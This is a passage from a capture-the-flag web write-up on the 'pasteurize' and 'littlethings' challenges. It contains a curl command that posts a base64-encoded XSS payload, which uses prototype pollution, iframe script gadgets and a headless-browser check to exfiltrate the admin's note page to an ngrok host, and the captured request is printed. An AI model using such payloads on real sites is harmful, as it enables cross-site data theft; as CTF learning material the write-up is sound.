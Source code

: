 ### Getting The Note GUID

Lets incorporate our payload into the exploit for the previous pasteurization challenge.  We'll need to set `window.name`(since it persists across pages) and then 
change the `location.href` value to the `littlethings.web.ctfcompetition.com` page we want the text of.  If you remember, certain characters are escaped, so lets base64 encode the JSON string.  Don't forget to url encode as well so `+` doesn't end up as a space.

```sh
╭─zoey@virtual-parrot ~/dev/public-write-ups ‹master*› 
╰─$ curl 'https://pasteurize.web.ctfcompetition.com/' --data-raw 'content[]=;window.name=atob(`eyJfX3Byb3RvX18iOiB7fSwidGhlbWUiOiB7ImNiIjogImRvY3VtZW50LmJvZHkuZmlyc3RFbGVtZW50Q2hpbGQuaW5uZXJIVE1MPXdpbmRvdy5uYW1lLnRvU3RyaW5nIn0sImltZyI6ICIvIiwicGF5bG9hZCI6IFsiPGZvcm0gaWQ9J2NvbmNhdCc%2BaHR0cHM6Ly9jOGI1Y2ZiNzcxYTUubmdyb2suaW8vPzxkaXY%2BPC9kaXY%2BPC9mb3JtPiIsIjxpZnJhbWUgc3JjZG9jPSc8c2NyaXB0IHNyYz0vdGhlbWU%2FY2I9d2luZG93LnRvcC5jb25jYXQuZmlyc3RFbGVtZW50Q2hpbGQuaW5uZXJUZXh0PXdpbmRvdy50b3AuZG9jdW1lbnQuYm9keS5pbm5lclRleHQudG9TdHJpbmc%2BPC9zY3JpcHQ%2BJz48L2lmcmFtZT4iLCI8aWZyYW1lIHNyY2RvYz0nPHNjcmlwdCBzcmM9L3RoZW1lP2NiPXdpbmRvdy50b3AubG9jYXRpb24uaHJlZj13aW5kb3cudG9wLmNvbmNhdC5pbm5lclRleHQudG9TdHJpbmc%2BPC9zY3JpcHQ%2BJz48L2lmcmFtZT4iXX0%3D`);if(navigator.userAgent.includes(`Headless`))location.href=`https://littlethings.web.ctfcompetition.com/note?__debug__`;//'
Found. Redirecting to /1a092148-9b81-40ea-8878-e885067efb98
```

The use of recaptcha means we need to use the browser to submit to the admin, so we added a check against `navigator.userAgent`, which results in the location change only 
happening on the admin's browser(it's a headless version of chrome).  That should allow us to be able to easily click the report button instead of the browser redirecting nearly instantly.  So now all thats left is to visit the page of our public note created with the above command, and click `share with TJMike`.  Of course you'll also need a server to receive the exfiltrated data.  We end up with the following request on our server:

```http
GET /?{%22__proto__%22:%20{},%22theme%22:%20{%22cb%22:%20%22document.body.firstElementChild.innerHTML=window.name.toString%22},%22img%22:%20%22/%22,%22payload%22:%20[%22https://c8b5cfb771a5.ngrok.io/?%22,%22%22,%22%22]}Your%20notes22f23db6-a432-408b-a3e9-40fe258d500ff65ee90c-a06f-4055-ac8a-f2416005479bCreate%20new%20noteNote:%20Visibility:privatepublic
Host: c8b5cfb771a5.ngrok.io
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/85.0.4182.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://littlethings.web.ctfcompetition.com/note?__debug__
Accept-Encoding: gzip, deflate, br
X-Forwarded-Proto: https
X-Forwarded-For: 104.155.55.51
```
